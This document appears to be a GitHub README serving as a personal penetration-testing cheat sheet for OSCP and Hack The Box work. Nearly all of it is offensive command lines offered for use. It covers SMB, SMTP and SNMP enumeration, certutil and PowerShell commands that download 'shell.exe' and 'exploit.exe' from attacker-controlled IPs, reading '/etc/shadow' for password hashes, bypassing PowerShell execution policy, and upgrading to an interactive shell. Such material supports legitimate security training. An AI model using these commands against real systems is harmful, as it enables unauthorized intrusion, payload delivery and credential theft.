 # Hacking-Cheatsheet
In this repo I collect all commands, links, techniques and tricks i found during my work as pentester, hacker, OSCP student and hack the box fan.

- [External Enumeration](#external-enumeration)
  - [OSINT](#osint)
  - [Port-Scanning](#port-scanning)
  - [SMB-Enumeration](#smb-enumeration)
  - [SMTP-Enumeration](#smtp-enumeration)
  - [SNMP-Enumeration](#snmp-enumeration)
- [File Transfer and File Downloads](#file-transfer-and-file-downloads)
  - [Windows](#windows)
  - [Python Webserver](#python-webserver)
- [Creating Exploits](#creating-exploits)
  - [Buffer Overflows](#buffer-overflows)
- [Local Enumeration](#local-enumeration)
  - [Local Linux Enumeration](#local-linux-enumeration)
  - [Local Windows Enumeration](#local-windows-enumeration)
- [Post Exploitation](#post-exploitation)
  - [Linux Post Exploitation](#linux-post-exploitation)
  - [Windows Post Exploitation](#windows-post-exploitation)


# External Enumeration

## OSINT
### Crawl words from website for passwordlist
```bash
cewl <domain> -m 6 -w words.txt
```

## Port-Scanning
Scan all ports with Service Detection
```bash
nmap -v -A -p- <Target-IP>
```

## SMB-Enumeration

### Enum4Linux
```bash
enum4linux -a <IP>
```

### rpcclient
```bash
rpcclient -U "" <Target IP>
```
enter empty password

Commands in rpcclient console:
- srvinfo: Identify OS Versions
- enumdomusers: List of Usernames on this server
- getdompwinfo: Displays SMB password policy

## SMTP-Enumeration
SMTP-Enumeration with netcat
```bash
for user in $(cat typical_usernames_SMTP_Enumeration.txt); do echo VRFY $user |nc -nv -w 1 <Target-IP> 25 2>/dev/null |grep ^"250";done
```

## SNMP-Enumeration

Enumerate set of IPs for different SNMP communities
```bash
onesixtyone -c community_names.txt -i ips.txt
```
examples for community names:
- public


Get list of running programms
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.25.4.2.1.2
```

Get list of open ports
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.6.13.1.3
```

Get list of installed software
```bash
snmpwalk -c public -v1 <Target-IP> 1.3.6.1.2.1.25.6.3.1.2
```


# File Transfer and File Downloads

## Windows
### Download Files with Certutil
```bash
certutil.exe -urlcache -f http://<ip>:<port>/<filename> <localfilename>
```
Example:
```bash
certutil.exe -urlcache -f http://10.10.14.37:8080/shell.exe reverse_shell.exe
```

### Downlaod Files with Powershell
```cmd
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.30.5/exploit.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url, $file) >>wget.ps1
```

Execute File with: [Execute Powershell File, bypass all policies](#execute-powershell-file-bypass-all-policies)

## Python Webserver
Create webserver listening to port 8080 offering files from current working directory
```bash
python3 -m http.server 8080
```
# Creating Exploits

## Creating Exploits with msfvenom

## Buffer Overflows

### Create unique pattern
Create a unique pattern to identify correct position for buffer overflow
```bash
/usr/share/metasploit-framework/tools/pattern_create.rb <# bytes>
```

# Local Enumeration

## Local Linux Enumeration

### System information/version
Show information about kernel and linux system
```bash
uname -a
```

Show linux version
```bash
cat /etc/issue
```

### Find local users
```bash
cat /etc/passwd
```

### Password hashes
```bash
cat /etc/shadow
```

### Find world writable files
```bash
find / -perm -2 ! -type l -ls 2>/dev/null
```

## Local Windows Enumeration

### Open Ports local
```cmd
netstat -an
```

### Check permission of executable
```bash
icacls <filename>
```

# Post Exploitation
## Linux Post Exploitation
### Create tty console with python
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Windows Post Exploitation
### Execute Powershell file, bypass all policies
```cmd
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

### RDP Connection from Linux Host to Windows target
```cmd
rdesktop -u <User> -p <Password> <Target-IP>
```
